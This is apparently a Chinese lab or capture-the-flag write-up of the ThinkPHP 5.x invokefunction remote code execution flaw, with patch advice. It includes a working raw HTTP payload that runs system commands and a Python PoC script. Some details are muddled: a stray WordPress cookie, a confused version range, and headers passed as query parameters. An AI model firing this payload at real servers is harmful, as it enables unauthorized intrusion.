

# thinkphp_5 命令执行 by [xiajibaxie](https://github.com/xiajibaxie)

## 一、漏洞描述

Thinkphp5.x 版本（5.0.20）中没有对路由中的控制器进行严格过滤，在存在 admin，index 模块、没有开启强制路由的条件下（默认不开启），导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，完成远程代码执行。

## 二、影响版本

ThinkPHP 5.x  < ThinkPHP 5.1.31<=  ThinkPHP 5.0.23

## 三、利用流程

靶场基本信息

靶场地址：`10.10.11.20:19809`

靶场名称: Thinkphp5

靶场描述: Thinkphp5 命令执行

尝试 poc，查询`/tmp`目录下的`flag`

```
GET /index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp HTTP/1.1
Host: 10.10.11.20:19809
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_07be81f78d509865b1926609964cf0ca=admin%7C1590115158%7CN20HCrC96zVmXgHk0BlnkROKbvQd4vf8nAxZoe2G7Uf%7C24b3491dd375a352ed0e49eb87acb2af156ffc23524cdc515962f170639193d5; wp-settings-time-1=1589947833
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
```

执行结果成功




尝试编写 poc

```python
import requests
import sys

def run(ip):
    poc = "/index.php/?s=index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp"  
    header = {'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:22.0) Gecko/20100101 Firefox/22.0', }
    url = ip+poc
    req = requests.get(url, header)
    if req.status_code == 200:
        if "flag" in req.text:
            print(req.text)
if __name__ == '__main__':
    url = sys.argv[1]
    if url[:4] != "http":
        url = "http://"+url

    run(url)
```


复制结果提交，通关

## 四、修复方案

1、官网已发布安全更新，用户可以通过网址[http://www.thinkphp.cn/topic/60400.html ](http://www.thinkphp.cn/topic/60400.html)获得.

2、建议使用以上 ThinkPHP5  开发的内容管理系统的用户及时检查是否存在该漏洞。